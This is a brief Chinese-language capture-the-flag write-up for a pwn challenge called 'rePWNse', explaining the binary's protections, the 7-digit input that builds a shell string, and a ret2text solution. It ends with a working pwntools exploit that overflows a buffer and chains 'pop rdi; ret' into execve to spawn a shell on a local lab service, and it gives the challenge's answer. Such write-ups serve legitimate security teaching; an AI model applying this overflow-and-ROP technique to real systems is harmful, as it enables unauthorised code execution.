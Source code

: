 ```yaml
---
title: rePWNse
date: 2023/9/25 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`rePWNse`, NX on, PIE off, Canary off, RELRO full
ghidra分析为64位程序

## 解题思路

`makebinsh`函数中有一个字母表和待输入的7位数字，易知else子句都是随机字母，难以组成目标；
而if子句和判断语句之外的cat语句可以组成目标，故得到2个等式和5个方程，整理得输入后的数组：

|idx|0|1|2|3|4|5|6|
|---|-|-|-|-|-|-|-|
|val|1|9|1|9|8|1|0|

~~这么臭的题还是不要罢~~

又发现存在`pop rdi; ret;` & `execve()`，回到了简单的ret2text

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 41053)
sh.sendline(b'1 9 1 9 8 1 0')
sh.recvuntil(b'is:') # skip
shstrAddr = int(sh.recvline()[2:9], 16)
popRdiAddr = 0x0040168e
execveAddr = 0x00401296
sh.sendline(b'0'*0x48 + p64(popRdiAddr) + p64(shstrAddr) + p64(execveAddr))
sh.interactive()
```

Done.
